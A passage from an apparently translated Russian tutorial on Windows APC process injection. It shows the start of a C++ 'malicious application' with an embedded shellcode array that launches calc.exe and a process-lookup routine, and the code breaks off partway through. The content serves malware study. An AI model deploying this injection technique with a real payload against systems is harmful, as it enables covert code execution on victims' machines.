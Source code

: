 Как видно, мы добавляем APC в очередь потока с помощью функции `QueueUserAPC`. Первый параметр должен быть указателем на функцию, которую мы хотим выполнить, в нашем случае - указатель на payload. Второй параметр - это дескриптор удаленного потока.    

Теперь давайте посмотрим на полный исходный код нашего вредоносного C++-приложения:

```cpp
/*
hack.cpp
APC injection via Queue an APC into all the threads
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/22/malware-injection-5.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

```